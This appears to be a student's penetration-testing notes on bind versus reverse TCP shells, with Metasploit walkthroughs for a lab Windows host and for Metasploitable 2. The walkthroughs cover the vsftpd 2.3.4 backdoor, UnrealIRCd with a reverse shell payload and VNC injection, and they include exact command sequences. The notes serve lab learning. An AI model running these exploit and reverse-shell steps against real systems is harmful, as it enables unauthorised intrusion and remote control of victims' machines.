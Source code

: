 In a bind TCP connection, the target machine opens a port and waits for an incoming connection from the attacker. The attacker initiates the connection to the victim's open port. This method can be hindered by firewalls or NAT configurations, as they often block unsolicited incoming connections
##### Reverse (shell) TCP Connection (safe than Bind )

![An example of a reverse TCP shell.](https://www.researchgate.net/profile/Shafiq-Rehman-6/publication/335456696/figure/fig1/AS:806675057504258@1569337729909/An-example-of-a-reverse-TCP-shell.jpg)

In a reverse TCP connection, the target machine initiates a connection back to the attacker's machine. The attacker sets up a listener on their machine to receive this connection. This method is often more effective in bypassing firewalls and NAT, as outbound connections are typically allowed.



#### Step : 4 Exploit the target 
-  exploit
After getting access using shell 
- whoami
	- nt authority\system

To give massage alert in remote machine 
- msg * Hacked

Graphical access / remote access 
- show payloads
	- payload/windows/x64/vncinject/reverse_https
  - set payload payload/windows/x64/vncinject/reverse_https
  - exploit 
  - set viewonly false
  - tightvncconnect
  
install vlc clint for parrot 

sudo apt install tigervnc-viewer 
### Exploits 

Classified based on how the exploit communicate with the vulnerable software.


1.  **A Remote exploit:** works over a network and exploits the security vulnerability without any prior access to the vulnerable system.
2.  **A Local exploit:** requires prior access to the vulnerable system and escalate the privileges of the person running the exploit.
### Exploiting Meta2

#### Using port 21
1. search vsftpd 2.3.4
2. set payloads or use exploit/unix/ftp/vsftpd_234_backdoor
3. show options
4. set RHOST 10.10.10.6
5. exploit 
To connect shell
- shell
#### Using port 6667
1. search irc     UnrealIRCd
2. show options 
3. set LHOST 10.10.10.4
4. set RHOST 10.10.10.8
5. show payloads
6.  set payload payload/cmd/unix/reverse
7. exploit 
